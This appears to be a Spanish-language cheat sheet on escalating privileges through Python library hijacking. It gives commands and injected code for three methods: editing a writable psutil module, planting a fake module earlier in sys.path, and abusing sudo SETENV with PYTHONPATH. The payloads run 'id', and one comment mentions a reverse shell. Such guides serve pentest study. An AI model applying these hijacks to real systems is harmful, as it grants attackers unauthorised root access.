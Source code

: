 # 📚 **Guía Rápida: Python Library Hijacking**

### 🎯 **Objetivo**

Ejecutar código malicioso aprovechando malas configuraciones en cómo Python carga sus librerías, consiguiendo escalada de privilegios.

## ✅ **Pre-requisitos generales**

- Un **script Python** ejecutable como **SUID** o con **sudo**.
    
- Tener **permiso de lectura** sobre dicho script.
    
- Acceso para modificar librerías o influir en la carga de módulos.

## 🔍 **Método 1: Hijacking por permisos de escritura incorrectos**

### 🔄 **Concepto**

Modificar directamente una librería legítima que tenga permisos de escritura para nuestro usuario.

### 🧩 **Pasos**

1. **Identificar un script Python ejecutable con sudo o SUID**
    
```bash
ls -l script.py
# Buscar SUID (-rws) o posibilidad de ejecutarlo con sudo.
```
2. Asegurarte de tener permisos de lectura sobre el script
	Esto te permitirá inspeccionar el código.
3. **Leer el script y detectar la librería y función usada**

```python
import psutil
available_memory = psutil.virtual_memory()
```
- 📌 **Objetivo**: Saber qué módulo importa (`psutil`) y qué función específica llama (`virtual_memory()`).

4. Localizar la función dentro de la librería:
```bash
grep -r "def virtual_memory" /usr/local/lib/python3.8/dist-packages/psutil/
```
5. **Verificar si tenemos permisos de escritura en el fichero que contiene la función**
```bash
ls -l /usr/local/lib/python3.8/dist-packages/psutil/__init__.py

```

6. **Insertar código malicioso**  
Modificamos la función objetivo, por ejemplo:
```python
import os
os.system('id')  # o una reverse shell
```

7. Ejecutar el script vulnerable con privilegios
```bash
sudo /usr/bin/python3 ./script.py
```

## 🔍 **Método 2: Hijacking mediante la manipulación del Library Path**

### 🔄 **Concepto**

Crear una librería falsa en una ruta de mayor prioridad (según `sys.path`) que la ruta oficial.
### 🧩 **Pasos**

1. **Consultar el orden de búsqueda de módulos de Python**
```bash
python3 -c 'import sys; print("\n".join(sys.path))'
```

2. Identificar rutas superiores con permisos de escritura:
```bash
ls -ld /usr/lib/python3.8
```

3. Crear una librería falsa en la ruta escribible
En `/usr/lib/python3.8/psutil.py`:
```python
import os
def virtual_memory():
    os.system('id')

```

4. Ejecutar el script vulnerable

```bash
sudo /usr/bin/python3 ./script.py
```

## 🔍 **Método 3: Hijacking usando la variable PYTHONPATH**

### 🔄 **Concepto**

Modificar `PYTHONPATH` para que Python cargue módulos desde una carpeta controlada por nosotros.

### 🧩 **Pasos**

1. **Verificar permisos sudo para setear variables de entorno**
    
```bash
sudo -l
# Buscar SETENV en la salida (ejemplo: SETENV: NOPASSWD: /usr/bin/python3)

```

2. **Crear una librería falsa en una carpeta controlada**  
En `/tmp/psutil.py`:
```python
import os
def virtual_memory():
    os.system('id')

```

3. Ejecutar el script forzando PYTHONPATH:
```bash
sudo PYTHONPATH=/tmp/ /usr/bin/python3 ./script.py
```
